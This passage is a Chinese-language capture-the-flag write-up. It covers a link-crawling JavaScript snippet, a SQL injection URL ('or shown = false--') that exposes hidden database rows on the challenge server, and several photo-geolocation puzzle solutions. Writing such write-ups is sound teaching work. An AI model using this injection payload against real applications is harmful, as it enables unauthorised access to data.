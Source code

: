 直接访问所有页面上的链接就可以找到哪一个含有 flag。以下为自动遍历脚本：

```js
(async ()=>{
  const links=[...document.querySelectorAll("li a")].map(e=>e.href)
	for (const link of links) {
    const respond=await fetch(link)
    const html=await respond.text()
    if(html.includes("flag")){
      console.log(link)
    }
  }
})()
```

找到之后拉到页面结尾即可获得 flag。

## PaoluGPT - 窥视未知

打开服务端源代码，立即发现可以 sql 注入。那么直接访问以下地址：

```
https://chal01-mdiohoe9.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=%27%20or%20shown%20=%20false--
```

这样拼出来的 sql 就是
```sql
select title, contents from messages where id = '' or shown = false--'
```

这样就能找到隐藏的数据条目了。找到之后拉到页面结尾即可获得 flag。

## 旅行照片 4.0 - LEO_CHAN?

惯例的图寻题。直接搜索图片上的文字可以找到 [对应的地址](https://j.map.baidu.com/24/Ghzg){: target="_blank" rel="noopener"}，再搜索中科大校门，可得是东校区西门最近。至于 Leo 酱的事情，可以直接搜索到她的 B 站账号，找到 [对应的动态](https://www.bilibili.com/opus/930934582351495204){: target="_blank" rel="noopener"} 就可以得知是 2024 年 5 月 19 日。

## 旅行照片 4.0 - FULL_RECALL

观察第一张图片的垃圾桶上可知这是六安市，搜索“六安公园红黄蓝”可以得到 [这篇宣传文章](https://www.sohu.com/a/498872898_100023473){: target="_blank" rel="noopener"}，所以是中央公园。而第二张图片直接以图搜图可以得到这是宜昌的坛子岭景区，[有文章为证](https://blog.sciencenet.cn/blog-264137-1027498.html){: target="_blank" rel="noopener"}。

## 旅行照片 4.0 - OMINOUS_BELL

直接搜索“粉色动车组”可以知道左下角的列车是怀柔－密云线上的 CRH6F-A 型电力动车组，其所在的线路有 [维基百科条目](https://zh.wikipedia.org/wiki/%E5%8C%97%E4%BA%AC%E5%B8%82%E9%83%8A%E9%93%81%E8%B7%AF%E6%80%80%E6%9F%94%E2%80%94%E5%AF%86%E4%BA%91%E7%BA%BF){: target="_blank" rel="noopener"}。在 B 站上搜索此线路的运转视频，可以得知图片位置为 [北京北动车运用所](https://j.map.baidu.com/a7/lEU){: target="_blank" rel="noopener"}，在此处搜索医院即可得知最近的医院是积水潭医院。

## 不宽的宽字符
